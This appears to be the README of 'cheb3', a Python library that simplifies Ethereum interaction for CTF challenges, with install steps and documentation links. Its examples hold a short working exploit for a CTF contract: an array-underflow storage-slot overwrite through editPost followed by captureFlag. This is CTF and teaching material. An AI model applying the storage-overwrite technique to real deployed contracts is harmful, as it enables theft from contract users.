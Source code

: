 .. image:: https://raw.githubusercontent.com/YanhuiJessica/cheb3/main/docs/_static/img/cheb3.png
    :width: 300
    :align: center

Installation
============

`cheb3` can be installed using `pip` as follows:

.. code-block:: shell

    $ python3 -m pip install cheb3

With `virtualenv` (Recommended)
-------------------------------

You can setup a clean environment for `cheb3`:

.. code-block:: shell

    $ python3 -m pip install virtualenv
    $ virtualenv -p python3 ~/.cheb3_env    # Create a virtual environment
    $ source ~/.cheb3_env/bin/activate  # Activate the new virtual environment
    $ pip install -U cheb3  # Install cheb3 in the virtual environment

Then, activate this environment every time before using `cheb3`:

.. code-block:: shell

    $ source ~/.cheb3_env/bin/activate 
    (.cheb3_env) $

.. end-of-readme-intro

Examples
========

Without `cheb3`, you might write code like this:

.. code-block:: python

    # https://yanhuijessica.github.io/Chictf-Writeups/blockchain/static/totally-secure-dapp.zip

    from web3 import Web3
    import json

    def transact(func, gas=1000000, gas_price=None):
        tx = account.sign_transaction(eval(func).build_transaction({
            'chainId': w3.eth.chain_id,
            'nonce': w3.eth.get_transaction_count(account.address),
            'gas': gas,
            'gasPrice': gas_price if gas_price else w3.eth.gas_price,
        })).raw_transaction
        tx_hash = w3.eth.send_raw_transaction(tx).hex()
        return w3.eth.wait_for_transaction_receipt(tx_hash)

    w3 = Web3(Web3.HTTPProvider("<rpc-url>"))
    account = w3.eth.account.from_key("<private-key>")

    challenge_addr = "<contract-address>"

    abi = json.loads(open("abi.json").read())
    challenge = w3.eth.contract(address=challenge_addr, abi=abi)

    transact("challenge.functions.removePost(1)")

    index = 2**256 - int(Web3.solidity_keccak(['uint256'], [3]).hex(), 16) + 2
    transact(f"challenge.functions.editPost({index}, 'unimportant', 'unimportant')")

    transact("challenge.functions.captureFlag()")

With `cheb3`, you can write code like this:

.. code-block:: python

    from web3 import Web3
    from cheb3 import Connection
    from cheb3.utils import load_compiled

    conn = Connection("<rpc-url>")
    account = conn.account("<private-key>")

    challenge_addr = "<contract-address>"

    abi, _ = load_compiled("TotallySecureDapp.sol")
    challenge = conn.contract(account, challenge_addr, abi=abi)

    challenge.functions.removePost(1).send_transaction()

    index = 2**256 - int(Web3.solidity_keccak(['uint256'], [3]).hex(), 16) + 2
    challenge.functions.editPost(index, "unimportant", "unimportant").send_transaction()

    challenge.functions.captureFlag().send_transaction()

Other examples of using `cheb3` in CTF challenges can be found in `/examples <examples/>`_.

Documentation
=============

- Quick Start
    - `Making Connections <https://cheb3.readthedocs.io/en/latest/connection_basis.html>`_
    - `Interaction Basis <https://cheb3.readthedocs.io/en/latest/interaction_basis.html>`_
- API Reference
    - `Connection <https://cheb3.readthedocs.io/en/latest/connection.html>`_
    - `Account <https://cheb3.readthedocs.io/en/latest/account.html>`_
    - `Contract <https://cheb3.readthedocs.io/en/latest/contract.html>`_
    - `cheb3.utils <https://cheb3.readthedocs.io/en/latest/utils.html>`_